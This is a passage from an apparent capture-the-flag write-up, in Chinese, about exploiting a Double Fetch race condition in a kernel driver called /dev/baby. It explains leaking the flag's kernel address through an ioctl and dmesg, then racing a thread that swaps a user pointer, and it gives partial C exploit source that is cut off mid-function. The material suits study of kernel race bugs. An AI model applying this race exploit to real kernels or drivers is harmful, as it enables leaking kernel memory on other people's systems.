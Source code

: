 ### 解题思路
根据 `Double Fetch` 漏洞原理，发现此题目存在一个 `Double Fetch` 漏洞，当用户输入数据通过验证后，再将 `flag_str` 所指向的地址改为 flag 硬编码地址后，即会输出 flag 内容。

首先，利用提供的 `cmd=0x6666` 功能，获取内核中 flag 的加载地址。

> 内核中以 `printk` 输出的内容，可以通过 `dmesg` 命令查看。

然后，构造符合 `cmd=0x1337` 功能的数据结构，其中 `flag_len` 可以从硬编码中直接获取为 33， `flag_str` 指向一个用户空间地址。

最后，创建一个恶意线程，不断的将 `flag_str` 所指向的用户态地址修改为 flag 的内核地址以制造竞争条件，从而使其通过驱动中的逐字节比较检查，输出 flag 内容。

### Exploit
```c
// gcc -static exp.c -lpthread -o exp
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>

#define TRYTIME 0x1000  //碰撞次数
#define LEN 0x1000

struct attr
{
    char *flag;
    size_t len;
};
unsigned long long addr;
int finish =0;
char buf[LEN+1]={0};
//线程函数，不断修改flag指向的地址为内核中flag地址
void change_attr_value(void *s){
    struct attr * s1 = s; 
    while(finish==0){
    s1->flag = addr;
    }
}

int main(void)
{
    int addr_fd;
    char *idx;
    int fd = open("/dev/baby",0);
    int ret = ioctl(fd,0x6666);    
    pthread_t t1;
    struct attr t;
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);   
	//获取内核硬编码的flag地址
    system("dmesg > /tmp/record.txt");
    addr_fd = open("/tmp/record.txt",O_RDONLY);
    lseek(addr_fd,-LEN,SEEK_END);
    read(addr_fd,buf,LEN);
    close(addr_fd);
```